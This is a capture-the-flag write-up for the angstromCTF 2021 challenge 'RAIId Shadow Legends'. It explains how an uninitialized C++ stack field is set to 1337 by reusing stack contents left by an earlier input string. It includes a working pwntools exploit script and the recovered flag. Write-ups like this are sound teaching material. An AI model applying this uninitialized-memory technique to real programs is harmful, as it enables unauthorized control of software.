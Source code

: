 
# RAIId Shadow Legends

## Description

```
I love how C++ initializes everything for you. It makes things so easy and fun!

Speaking of fun, play our fun new game RAIId Shadow Legends (source) at /problems/2021/raiid_shadow_legends on the shell server, or connect with nc shell.actf.co 21300.

Author: kmh
```

## Analysis

Let's take a look at `raiid_shadow_legends.cpp`.

`main()` prompts for an action. The only thing that's useful is option 1, which will call `terms_and_conditions()` followed by `play()`.

```cpp
int main() {
        setresgid(getegid(), getegid(), getegid());
        cout << "Welcome to RAIId Shadow Legends!" << endl;
        while (true) {
                cout << "\n1. Start game" << endl;
                cout << "2. Purchase shadow tokens\n" << endl;
                cout << "What would you like to do? " << flush;
                string action;
                cin >> action;
                cin.ignore();
                if (action == "1") {
                        terms_and_conditions();
                        play();
                } else if (action == "2") {
                        cout << "Please mail a check to RAIId Shadow Legends Headquarters, 1337 Leet Street, 31337." << endl;
                }
        }
}
```

`terms_and_conditions()` just prompts for an agreement and signature:

```cpp
void terms_and_conditions() {
        string agreement;
        string signature;
        cout << "\nRAIId Shadow Legends is owned and operated by Working Group 21, Inc. ";
        cout << "As a subsidiary of the International Organization for Standardization, ";
        cout << "we reserve the right to standardize and/or destandardize any gameplay ";
        cout << "elements that are deemed fraudulent, unnecessary, beneficial to the ";
        cout << "player, or otherwise undesirable in our authoritarian society where ";
        cout << "social capital has been eradicated and money is the only source of ";
        cout << "power, legal or otherwise.\n" << endl;
        cout << "Do you agree to the terms and conditions? " << flush;
        cin >> agreement;
        cin.ignore();
        while (agreement != "yes") {
                cout << "Do you agree to the terms and conditions? " << flush;
                cin >> agreement;
                cin.ignore();
        }
        cout << "Sign here: " << flush;
        getline(cin, signature);
}
```

`play()` is where the money's at. We need to control `player.skill` in order to get the flag. But notice that it's never set or manipulated. Since it's not initialized, and it's on the stack, there must be some way to leave "garbage" behind on the stack such that `player.skill == 1337`.

```cpp
struct character {
        int health;
        int skill;
        long tokens;
        string name;
};

void play() {
        string action;
        character player;
        cout << "Enter your name: " << flush;
        getline(cin, player.name);
        cout << "Welcome, " << player.name << ". Skill level: " << player.skill << endl;
        while (true) {
                cout << "\n1. Power up" << endl;
                cout << "2. Fight for the flag" << endl;
                cout << "3. Exit game\n" << endl;
                cout << "What would you like to do? " << flush;
                cin >> action;
                cin.ignore();
                if (action == "1") {
                        cout << "Power up requires shadow tokens, available via in app purchase." << endl;
                } else if (action == "2") {
                        if (player.skill < 1337) {
                                cout << "You flail your arms wildly, but it is no match for the flag guardian. Raid failed." << endl;
                        } else if (player.skill > 1337) {
                                cout << "The flag guardian quickly succumbs to your overwhelming power. But the flag was destroyed in the frenzy!" << endl;
                        } else {
                                cout << "It's a tough battle, but you emerge victorious. The flag has been recovered successfully: " << flag.rdbuf() << endl;
                        }
                } else if (action == "3") {
                        return;
                }
        }
}
```

If we provide only expected input, `player.skill` will be 0.

```
kali@kali:~/Downloads/angstrom/raiid_shadow_legends$ ./raiid_shadow_legends 
Welcome to RAIId Shadow Legends!

1. Start game
2. Purchase shadow tokens

What would you like to do? 1

RAIId Shadow Legends is owned and operated by Working Group 21, Inc. As a subsidiary of the International Organization for Standardization, we reserve the right to standardize and/or destandardize any gameplay elements that are deemed fraudulent, unnecessary, beneficial to the player, or otherwise undesirable in our authoritarian society where social capital has been eradicated and money is the only source of power, legal or otherwise.

Do you agree to the terms and conditions? yes
Sign here: no
Enter your name: foobar
Welcome, foobar. Skill level: 0

1. Power up
2. Fight for the flag
3. Exit game

What would you like to do? 2
You flail your arms wildly, but it is no match for the flag guardian. Raid failed.
```

I spent some time fumbling around passing large inputs into `player.name`, but these are C++ strings(based on vectors) so it's clearly not a buffer overflow.

Kudos to my team mate [datajerk](https://github.com/datajerk) for figuring out that we can manipulate `player.skill` via the `agreement` string in `terms_and_conditions()`:

```
kali@kali:~/Downloads/angstrom/raiid_shadow_legends$ ./raiid_shadow_legends 
Welcome to RAIId Shadow Legends!

1. Start game
2. Purchase shadow tokens

What would you like to do? 1

RAIId Shadow Legends is owned and operated by Working Group 21, Inc. As a subsidiary of the International Organization for Standardization, we reserve the right to standardize and/or destandardize any gameplay elements that are deemed fraudulent, unnecessary, beneficial to the player, or otherwise undesirable in our authoritarian society where social capital has been eradicated and money is the only source of power, legal or otherwise.

Do you agree to the terms and conditions? yesAAAA
Do you agree to the terms and conditions? yes
Sign here: foo
Enter your name: foo
Welcome, foo. Skill level: 4276545

1. Power up
2. Fight for the flag
3. Exit game

What would you like to do? 
```

`4276545` is `0x414141` (or `AAA`).

## Solution

Now that we know how to manipulate `player.skill` we just have to get `0x539` (`1337`) in there to print the flag.

```python
#!/usr/bin/env python3
from pwn import *
p = process('./raiid_shadow_legends')
p.recvuntil('What would you like to do?')
p.sendline('1')
p.recvuntil('Do you agree to the terms and conditions?')
p.sendline(b'yes\0' + p32(0x539))
p.recvuntil('Do you agree to the terms and conditions?')
p.sendline('yes')
p.recvuntil('Sign here:')
p.sendline('foo')
p.recvuntil('Enter your name:')
p.sendline('foo')
p.recvuntil('What would you like to do?')
p.sendline('2')
p.recvuntil("It's a tough battle, but you emerge victorious. The flag has been recovered successfully: ")
flag = p.recvline()
print(flag)
```

```
team8838@actf:/problems/2021/raiid_shadow_legends$ ~/solve.py
[+] Starting local process './raiid_shadow_legends': pid 1473059
b'actf{great_job!_speaking_of_great_jobs,_our_sponsor_audible...}\n'
```


